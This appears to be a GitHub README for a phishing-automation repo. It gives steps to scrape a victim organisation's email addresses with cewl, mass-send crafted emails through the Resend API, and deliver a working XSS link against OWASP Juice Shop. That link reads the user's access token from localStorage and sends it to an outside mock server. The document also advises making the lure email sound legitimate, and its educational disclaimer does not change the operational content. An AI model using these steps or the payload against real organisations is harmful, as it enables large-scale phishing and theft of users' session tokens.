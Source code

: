 # Email Phishing using OSINT

Email phishing is one of the most common type of attacks. This repo outlines the steps that can be taken to perform such an attack on scale.


## Disclaimer:
This guideline is purely for educational purposes. Author isn't resposible for any misuse, or any harm. Any actions and or activities related to this guideline is solely your responsibility. The misuse of this toolkit can result in criminal charges brought against the persons in question. The contributors will not be held responsible in the event any criminal charges be brought against any individuals misusing this toolkit to break the law.

## Steps:
1) Create a kali linux machine
2) Install https://www.kali.org/tools/cewl/
3) Install node v20.9.0
4) Clone https://github.com/ZeeshanZulfiqarAli/Phishing-Automator
5) Open terminal and navigate to this repo.
6) Use cewl to scrape emails on the victim organization's webpage. Command should look like:
`cewl -d 2 -e https://www.<target>.app --email_file 'emails.txt' `
7) Alternatively, you can use another program to gather email addresses.
The program in (4) expects emails in a txt file with one email address per line:
```
email1@test.com
email2@test.com
```
8) Write a html template for email content. You can use one from demo/template.html to get started. Look at the html template section for more details.
9) Create an account on [Resend](https://resend.com/). And get the API key.
10) Run the following command to send the emails to the victims automatically:
`node index.js -k <resend_key> -f ./emails.txt -sb <email_subject> -s <sender_email> -h ./demo/template.html`

## Performing vulnurability analysis of the victim's website
We're aiming our attack on getting victim's access token on [OWASP Juice Shop](https://juice-shop.herokuapp.com/). This website is intentionally left vulnerable. 

Inspecting the application using chrome dev tools showed us that the access token is stored in the local storage. This is great news for us as this indicates that it can be stolen if we can run javascript on the victim's machine.

We use [Zap](https://www.zaproxy.org/download/) to perform analysis on juice shop. We the following alerts
![](./assets/juice-shop-scan-alerts.png)

The missing CSP Header looks really promising. Upon further investigation we found that the search query is set as a query parameter. The query parameter is directly inserted into the DOM which makes it possible to insert malicious code. We did exactly that and created a URL that:
1) Inserts a iframe
2) Provided javascript in the src tag of the iframe using the syntax `<iframe src="javascript:console.log('i can run js')">`
3) We wrote a script that:
    - Reads token from local storage.
    - Makes API call to a mock server we set up using postman ([more info here](https://learning.postman.com/docs/designing-and-developing-your-api/mocking-data/mock-with-api/)). The api call looks like this:
`https://3b233c9b-8705-4517-b3d8-72e8183c0eg1.mock.pstmn.io?token=asd`
    - After making the API call, removes the query parameter
    - Removes the iframe
4) Minified the javascript code using an online tool https://www.minifier.org/
5) Inserted the code in inframe as mentioned in step 2

This is how the final url looks like:
```
https://juice-shop.herokuapp.com/#/search?q=%3Ciframe%20src=%22javascript:function%20replaceState()%7Bwindow.parent.history.replaceState(%7B%7D,document.title,window.parent.location.href.split('?')%5B0%5D)%7D%0Afunction%20remoteEl()%7Bwindow.parent.document.querySelector('iframe').remove()%7D%0Afetch('https://3b233c9b-8705-4517-b3d8-72e8183c0ef6.mock.pstmn.io/token='.concat(localStorage.getItem('token'))).then((r)=%3E%7BreplaceState();remoteEl()%7D).catch((e)=%3E%7BreplaceState();remoteEl()%7D)%22%3E
```

## Writing email template
We want our email to sound legit and provide the user a valid reason to click the link. We asked them to schedule a meeting by clicking on a link but embeded that with the malicious URL we designed in the previous part.

## Viewing results
As soon as a user clicks on the malicious email, an API reqeust is sent to our postman mock server. We can monitor that and see if we get any requests, which will provide us with the token.
